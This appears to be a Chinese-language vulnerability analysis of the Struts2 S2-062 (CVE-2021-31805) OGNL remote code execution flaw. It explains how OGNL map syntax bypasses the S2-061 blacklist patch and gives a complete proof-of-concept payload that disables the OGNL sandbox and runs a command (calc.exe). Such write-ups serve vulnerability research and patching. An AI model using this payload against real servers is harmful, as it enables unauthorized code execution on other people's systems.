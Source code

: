 - [CVE-2021-31805(s2-062) Struts2 远程代码执行](#cve-2021-31805s2-062-struts2-远程代码执行)
  - [影响版本](#影响版本)
  - [原理分析](#原理分析)
    - [s2-061 补丁](#s2-061-补丁)
    - [Bypass](#bypass)
    - [漏洞复现](#漏洞复现)
  - [参考](#参考)
# CVE-2021-31805(s2-062) Struts2 远程代码执行
## 影响版本
Struts 2.0.0 - Struts 2.5.29
## 原理分析
S2-062触发OGNL和之前的都相似,只不过从id标签变成了name标签,而name标签在解析时不会将结果回显,但二次解析原理流程都是差不多的,主要在于绕过之前沙盒rce.  
example:  
```jsp
<%@ page
        language="java"
        contentType="text/html; charset=UTF-8"
        pageEncoding="UTF-8" %>
<%@ taglib prefix="s" uri="/struts-tags" %>
<html>
<head>
    <title>demo</title>
</head>
<s:textfield  label="test1" name="%{name}">hi</s:textfield>
</body>
</html>
```
### s2-061 补丁
在s2-061的补丁中依旧是添加了黑名单,将`org.apache.tomcat`类也加入了黑名单,导致无法通过`org.apache.tomcat.InstanceManager`来创建BeanMap对象实例.  
![](2022-05-17-14-26-03.png)
### Bypass
问题在于OGNL语法中支持直接创建一个Map类型对象.  
![](2022-05-17-14-39-59.png)
所以直接执行`#@org.apache.commons.collections.BeanMap@{}`即可得到S2-061中的BeanMap了,而不用再使用`org.apache.tomcat.InstanceManager`来获取BeanMap从而绕过了黑名单.  
### 漏洞复现
直接替换BeanMap相关部分即可.  
poc:  
```
(#request.map=#@org.apache.commons.collections.BeanMap@{}).toString().substring(0,0) +
(#request.map.setBean(#request.get('struts.valueStack')) == true).toString().substring(0,0) +
(#request.map2=#@org.apache.commons.collections.BeanMap@{}).toString().substring(0,0) +
(#request.map2.setBean(#request.get('map').get('context')) == true).toString().substring(0,0) +
(#request.map3=#@org.apache.commons.collections.BeanMap@{}).toString().substring(0,0) +
(#request.map3.setBean(#request.get('map2').get('memberAccess')) == true).toString().substring(0,0) +
(#request.get('map3').put('excludedPackageNames',#@org.apache.commons.collections.BeanMap@{}.keySet()) == true).toString().substring(0,0) +
(#request.get('map3').put('excludedClasses',#@org.apache.commons.collections.BeanMap@{}.keySet()) == true).toString().substring(0,0) +
(#application.get('org.apache.tomcat.InstanceManager').newInstance('freemarker.template.utility.Execute').exec({'calc.exe'}))
```
![](2022-05-17-14-43-03.png)
## 参考
https://mc0wn.blogspot.com/2021/04/exploiting-struts-rce-on-2526.html